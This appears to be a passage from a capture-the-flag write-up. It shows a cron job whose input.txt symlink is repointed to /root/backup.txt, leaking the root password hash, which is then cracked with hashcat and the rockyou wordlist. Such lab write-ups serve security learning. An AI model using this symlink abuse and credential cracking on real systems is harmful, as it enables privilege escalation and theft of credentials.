 ```python
import os

# Beppe if you need, this script is executed every 1 minute!

def write_tmp(psw):
	f = open("/home/beppe/output.txt", "w")
	f.write(psw)
	f.close()
	return True


if __name__ == "__main__":

	pass_file = open("/home/beppe/input.txt","r")
	psw = pass_file.read()
	pass_file.close()

	write_tmp(psw)
```

We note the comment:
```
# Beppe if you need, this script is executed every 1 minute!
```

The cronjob runs every minute and it read the file `/home/beppe/input.txt` and writes it on `/home/beppe/output.txt`. The input file is a symlink to the file `/root/to_copy.txt` that is an "example" file. But changing the symlink with other root files, the player can read them. 

So, we can modify the symlink to read the `backup.txt` file in the root folder, by executing the command:

```
ln -fsn /root/backup.txt input.txt
```

And we have modified the symlink:

![image-20211015102318187](/assets/img/posts/thinjob/modifySymlink.png)

After 1 minute, we look at the `output.txt` file and we obtain the hashed password of the root.

![image-20211015115449585](/assets/img/posts/thinjob/outputRootHash.png)



We crack it with hashcat:

```
hashcat -m 1800 hash1.txt rockyou.txt
```
